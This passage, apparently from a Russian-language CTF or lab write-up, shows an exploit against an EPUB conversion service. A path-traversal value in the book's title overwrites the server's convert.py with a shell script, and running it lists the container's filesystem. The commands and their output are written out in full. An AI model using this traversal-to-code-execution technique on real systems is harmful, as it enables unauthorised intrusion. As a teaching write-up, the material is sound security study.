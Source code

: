 ```
Hello, world!
/home/bookkeeper/books/convert.py: line 4: ---: not found
```

Другое дело! Перезапустим контейнер и попробуем что-нибудь более полезное:

```shell
$ cat >OEBPS/source.xhtml <<EOF
#!/bin/sh
find / 2>/dev/null
EOF
$ zip -r ../test-book.zip .
updating: mimetype (stored 0%)
updating: META-INF/ (stored 0%)
updating: META-INF/container.xml (deflated 27%)
updating: OEBPS/ (stored 0%)
updating: OEBPS/content.opf (deflated 52%)
updating: OEBPS/source.xhtml (stored 0%)
```

```
Archive:  book.epub
 extracting: mimetype                
   creating: META-INF/
  inflating: META-INF/container.xml  
   creating: OEBPS/
  inflating: OEBPS/content.opf       
 extracting: OEBPS/source.xhtml      
Rootfile found at OEBPS/content.opf
Title: ../..////////////////////////////////////////////////home/bookkeeper/books/convert.py
Output: /tmp/converted/../..////////////////////////////////////////////////home/bookkeeper/books/convert.py
```

```
/
/var
/var/lock
/var/lock/subsys
/var/cache
/var/cache/apk
/var/cache/misc
/var/spool
/var/spool/cron
/var/spool/cron/crontabs
/var/spool/mail
/var/tmp
/var/opt
/var/lib
/var/lib/apk
/var/lib/udhcpd
/var/lib/misc
/var/local
/var/mail
/var/log
/var/run
/var/empty
/tmp
/tmp/epub-2
/tmp/epub-2/book.epub
...
/sbin/mkdosfs
/sbin/rmmod
/sbin/sysctl
/sbin/ipaddr
/sbin/init
```